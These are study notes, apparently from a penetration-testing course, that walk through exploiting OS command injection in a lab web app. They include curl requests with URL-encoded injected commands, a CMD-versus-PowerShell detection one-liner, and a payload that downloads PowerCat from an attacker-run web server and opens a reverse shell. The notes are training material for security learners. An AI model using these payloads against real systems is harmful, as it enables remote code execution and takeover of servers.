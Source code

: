 
### OS Command Injection 

Demonstrating using this site:

![Figure 23: Modified Web Content and new Input Textbox](https://static.offsec.com/offsec-courses/PEN-200/imgs/commonwebattacks/4fa2bc55d2e3c02996a42fba94b6df48-cwa_ci_overview2.png)

Using login form to clone GitHub's exploitdb repository

![Figure 24: Clone command for the ExploitDB repository](https://static.offsec.com/offsec-courses/PEN-200/imgs/commonwebattacks/4a3f89f0271317d156a4102a9934267a-cwa_ci_overview3.png)

Repo successfully cloned and the command is displayed in the web app's output.

![Figure 25: Successfully cloned the ExploitDB Repository via the Web Application](https://static.offsec.com/offsec-courses/PEN-200/imgs/commonwebattacks/b0602bcdcb4e77cf80da46dda93dcf18-cwa_ci_succlone.png)

Attempt to inject commands like `ipconfig`, `ifconfig`, `hostname`, `curl` 

Using Burp to understand structure of POST request.

Notice there's an archive parameter

![Figure 26: Archive Parameter in the POST request](https://static.offsec.com/offsec-courses/PEN-200/imgs/commonwebattacks/97f7dfc6295ddb3f13e67a4e0ac4ab33-cwa_ci_archiveparam2.png)

Using curl to supply our own command

```
kali@kali:~$ curl -X POST --data 'Archive=ipconfig' http://192.168.50.189:8000/archive

Command Injection detected. Aborting...%!(EXTRA string=ipconfig)
```

Command injection detected. 

Only supply `git` for the archive parameter:

```
kali@kali:~$ curl -X POST --data 'Archive=git' http://192.168.50.189:8000/archive

An error occured with execution: exit status 1 and usage: git [--version] [--help] [-C <path>] [-c <name>=<value>]
           [--exec-path[=<path>]] [--html-path] [--man-path] [--info-path]
           [-p | --paginate | -P | --no-pager] [--no-replace-objects] [--bare]
...
   push      Update remote refs along with associated objects

'git help -a' and 'git help -g' list available subcommands and some
concept guides. See 'git help <command>' or 'git help <concept>'
to read about a specific subcommand or concept.
See 'git help git' for an overview of the system.
```

We get help page for git. 

Using git version to detect the operating system

```
kali@kali:~$ curl -X POST --data 'Archive=git version' http://192.168.50.189:8000/archive

Repository successfully cloned with command: git version and output: git version 2.35.1.windows.2
```

Web app is running Windows. 

Try combining `git` and `ipconfig` with URL encoded version of a semicolon "%3B"

```
kali@kali:~$ curl -X POST --data 'Archive=git%3Bipconfig' http://192.168.50.189:8000/archive

...
'git help -a' and 'git help -g' list available subcommands and some
concept guides. See 'git help <command>' or 'git help <concept>'
to read about a specific subcommand or concept.
See 'git help git' for an overview of the system.

Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 192.168.50.189
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.50.254
```

Both commands executed. 

Determine where this code is executed (CMD or PowerShell) with 

```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

URL Encode and send

```
kali@kali:~$ curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive

...
See 'git help git' for an overview of the system.
PowerShell
```

Injected commands are within a PowerShell environment. 

Using #PowerCat to create a reverse shell

PowerCat is a PowerShell version of Netcat.

Serve Powercat via Python3 web server

```hlt:1,3
kali@kali:~$ cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .

kali@kali:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Start netcat listener 

`nc -nvlp 4444`

Command to download PowerCat and execute a reverse shell

```
IEX(New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 
```

URL encode this command and serve to the web app with curl.

Downloading Powercat and creating a reverse shell via Command Injection
```
kali@kali:~$ curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.119.3%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.119.3%20-p%204444%20-e%20powershell' http://192.168.50.189:8000/archive
```

 Successful reverse shell connection via Command Injection

```
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.119.3] from (UNKNOWN) [192.168.50.189] 50325
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\Documents\meteor>
```


